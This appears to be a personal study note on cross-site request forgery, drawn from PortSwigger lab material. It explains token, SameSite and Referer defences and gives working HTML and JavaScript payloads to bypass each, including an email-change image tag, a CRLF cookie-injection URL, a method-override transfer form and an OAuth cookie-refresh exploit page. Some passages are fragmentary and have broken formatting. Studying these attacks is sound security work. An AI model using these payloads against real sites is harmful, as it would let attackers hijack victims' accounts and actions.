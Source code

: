 # CSRF

### How to deliver a CSRF exploit <a href="#how-to-deliver-a-csrf-exploit" id="how-to-deliver-a-csrf-exploit"></a>

xss, a self-contained attack would look like this:

```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

### Common defences against CSRF <a href="#common-defences-against-csrf" id="common-defences-against-csrf"></a>

* **CSRF tokens** - A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.
* **SameSite cookies** - SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site. Since 2021, Chrome enforces `Lax` SameSite restrictions by default. As this is the proposed standard, we expect other major browsers to adopt this behavior in future.
* **Referer-based validation** - Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation.

## Bypassing CSRF token validation

#### Validation of CSRF token depends on request method <a href="#validation-of-csrf-token-depends-on-request-method" id="validation-of-csrf-token-depends-on-request-method"></a>

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

#### Validation of CSRF token depends on token being present <a href="#validation-of-csrf-token-depends-on-token-being-present" id="validation-of-csrf-token-depends-on-token-being-present"></a>

Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value)

#### CSRF token is not tied to the user session <a href="#csrf-token-is-not-tied-to-the-user-session" id="csrf-token-is-not-tied-to-the-user-session"></a>

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

#### CSRF token is tied to a non-session cookie <a href="#csrf-token-is-tied-to-a-non-session-cookie" id="csrf-token-is-tied-to-a-non-session-cookie"></a>

In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together

Remove the auto-submit `<script>` block, and instead add the following code to inject the cookie:

`<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">`

#### CSRF token is simply duplicated in a cookie <a href="#csrf-token-is-simply-duplicated-in-a-cookie" id="csrf-token-is-simply-duplicated-in-a-cookie"></a>

In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie.POST /email/change `HTTP/1.1`\
`Host: vulnerable-website.com`\
`Content-Type: application/x-www-form-urlencoded`\
`Content-Length: 68`\
`Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa`

`csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.co`m

In this situation, the attacker can again perform a CSRF attack if the website contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

## Bypassing SameSite cookie restrictions <a href="#bypassing-samesite-cookie-restrictions" id="bypassing-samesite-cookie-restrictions"></a>

#### Bypassing SameSite Lax restrictions using GET requests <a href="#bypassing-samesite-lax-restrictions-using-get-requests" id="bypassing-samesite-lax-restrictions-using-get-requests"></a>

If they also use `Lax` restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a `GET` request from the victim's browser.

Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes:

`<form action="https://vulnerable-website.com/account/transfer-payment" method="POST"> <input type="hidden" name="_method" value="GET"> <input type="hidden" name="recipient" value="hacker"> <input type="hidden" name="amount" value="1000000"> </form>`

Other frameworks support a variety of similar parameters.

```
<script>
    document.location = "https://0abd000e03a9850081ba5d6200000042.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

#### Bypassing SameSite restrictions using on-site gadgets <a href="#bypassing-samesite-restrictions-using-on-site-gadgets" id="bypassing-samesite-restrictions-using-on-site-gadgets"></a>

If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site.

One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.

#### Bypassing SameSite restrictions via vulnerable sibling domains <a href="#bypassing-samesite-restrictions-via-vulnerable-sibling-domains" id="bypassing-samesite-restrictions-via-vulnerable-sibling-domains"></a>

Make sure you thoroughly audit all of the available attack surface, including any sibling domains. In particular, vulnerabilities that enable you to elicit an arbitrary secondary request, such as XSS, can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks.

#### Bypassing SameSite Lax restrictions with newly issued cookies <a href="#bypassing-samesite-lax-restrictions-with-newly-issued-cookies" id="bypassing-samesite-lax-restrictions-with-newly-issued-cookies"></a>

As mentioned earlier, if a website doesn't include a `SameSite` attribute when setting a cookie, Chrome automatically applies `Lax` restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level `POST` requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

To trigger the cookie refresh without the victim having to manually log in again, you need to use a top-level navigation, which ensures that the cookies associated with their current OAuth session are included. This poses an additional challenge because you then need to redirect the user back to your site so that you can launch the CSRF attack.

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

## Bypassing Referer-based CSRF defenses <a href="#bypassing-referer-based-csrf-defenses" id="bypassing-referer-based-csrf-defenses"></a>

Aside from defenses that employ CSRF tokens, some applications make use of the HTTP `Referer` header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This approach is generally less effective and is often subject to bypasses.

#### Validation of Referer depends on header being present <a href="#validation-of-referer-depends-on-header-being-present" id="validation-of-referer-depends-on-header-being-present"></a>

Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted.

```
<meta name="referrer" content="never">
```

#### Validation of Referer can be circumvented <a href="#validation-of-referer-can-be-circumvented" id="validation-of-referer-can-be-circumvented"></a>

Some applications validate the `Referer` header in a naive way that can be bypassed. For example, if the application validates that the domain in the `Referer` starts with the expected value, then the attacker can place this as a subdomain of their own domain:

`http://vulnerable-website.com.attacker-website.com/csrf-attack`

Likewise, if the application simply validates that the `Referer` contains its own domain name, then the attacker can place the required value elsewhere in the URL:

```
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

1.  Create a CSRF proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab and host it on the exploit server. Edit the JavaScript so that the third argument of the `history.pushState()` function includes a query string with your lab instance URL as follows:

    `history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")`

    This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.
2.  If you store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error again. This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:

    `Referrer-Policy: unsafe-url`
